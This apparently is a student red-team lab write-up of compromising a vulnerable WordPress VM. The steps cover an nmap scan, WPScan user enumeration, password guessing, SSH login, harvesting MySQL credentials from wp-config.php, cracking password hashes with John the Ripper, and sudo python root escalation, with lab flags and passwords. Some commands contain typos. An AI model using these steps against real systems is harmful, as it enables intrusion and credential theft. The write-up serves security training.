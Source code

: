 # Red Team: Summary of Operations

## Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

- **$ nmap -sV -A 192.168.1.100**

![NMAP scan](https://user-images.githubusercontent.com/88005785/156202449-00d3d6a3-2b1a-4f3a-b20a-a435e417e40d.png)

This scan identifies the services below as potential points of entry for Target 1:

- Port 22/TCP Open SSH
- Port 80/TCP Open HTTP
- Port 111/TCP Open rpcbind
- Port 139/TCP Open netbios-ssn
- Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on the Target 1 VM:

- User enumeration 
- Weak user passwords
- No use of salt on hashed passwords
- Misconfigured user privileges

## Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

- Flag1.txt: b9bbcb33e11b80be759c4e8448622482d

- Exploit Used
  - WPScan was used to enumerate users on the WordPress site
  - **$ wpscan --url http://192.168.1.110/Wordpress --enumerate u**

![Enumeration](https://user-images.githubusercontent.com/88005785/156202666-bda80739-4b50-4319-b4cf-50c57ec610d7.png)

  - After enumerating users, guessed user Michael’s password: michael
  - Connected via SSH using Michael’s credentials.
    - **$ ssh michael@192.168.1.110**
  - Found first flag in /var/www/html/service.html directory and file by using following command:
    - **$ grep -ir flag1 /var/www**

![Flag1](https://user-images.githubusercontent.com/88005785/156202721-05f782ae-8cb3-4adb-9fc1-d21f3123007e.png)

- Flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c

- Exploit Used
  - Used similar commands to search directories and files in Michael’s machine.
  - Search through Michael’s directories uncovered the second flag:

![Flag2](https://user-images.githubusercontent.com/88005785/156202771-4f845dc0-dd5e-4ef6-8801-d5748c00f1e3.png)

- Flag3.txt: afc01ab56b50591e7dccf93122770cd2

- Exploit Used
  - Searching for file name, located the wp-config.php containing Michael’s mysql login credentials, including password: R@v3nSecurity

![SQL creds](https://user-images.githubusercontent.com/88005785/156202822-3cd279e0-70bb-44e9-843a-3f4a550d4ae5.png)

  - Logged into mysql with following command
    - **$ mysql -u root - p wordpress**
  - Ran the following sql commands to enumerate the tables:
    - **show databases;**
    - **use wordpress;**
    - **show tables;**

![mysql table](https://user-images.githubusercontent.com/88005785/156202856-bb8acbbf-d34a-4243-97b7-cb9faf1643eb.png)

     - select * from wp_posts;

![Flag3](https://user-images.githubusercontent.com/88005785/156202875-8cdb60ff-32a1-4184-a169-831b859b311f.png)

    - select * from wp_users;

![Hashed passwords](https://user-images.githubusercontent.com/88005785/156202901-b6ed3cce-eb4c-4b72-83b5-1daec9a720f2.png)

  - On the Kali machine, the hashed passwords (displayed above) were cracked using John the Ripper:
    - **$ john wp_hashes.txt**

![Steve password](https://user-images.githubusercontent.com/88005785/156202935-5679ae4c-b1a8-44df-b7f3-466fecc21307.png)
 
 - Steven’s password was obtained: pink84

- Flag4.txt: 715dea6c055b9fe3337544932f2941ce

- Exploit Used
  - Connected via SSH using Steven’s credentials
    - **$ ssh steven@192.168.1.110**


![Steve account](https://user-images.githubusercontent.com/88005785/156202989-707e992c-a101-4e93-a0bf-027324c44e54.png)

  - Attempted to switch to root by enumerating sudo privileges:
    - **$ sudo -l**

![Steve sudo](https://user-images.githubusercontent.com/88005785/156203026-4eecaabe-b699-4925-a3bc-5c5c54f20439.png)

  - Escalated to root by using the following python command:
    - **$ sudo python -c ‘import pty: pty.spawn(*/bin/sh”)’**

![Python command](https://user-images.githubusercontent.com/88005785/156203052-3e079f95-1c0b-4419-9a0e-6c9b64108019.png)

  - With access to root, found the 4th flag:

![Flag4](https://user-images.githubusercontent.com/88005785/156203081-e157be54-19c5-4ac8-86ee-95bb08eb2d1d.png)
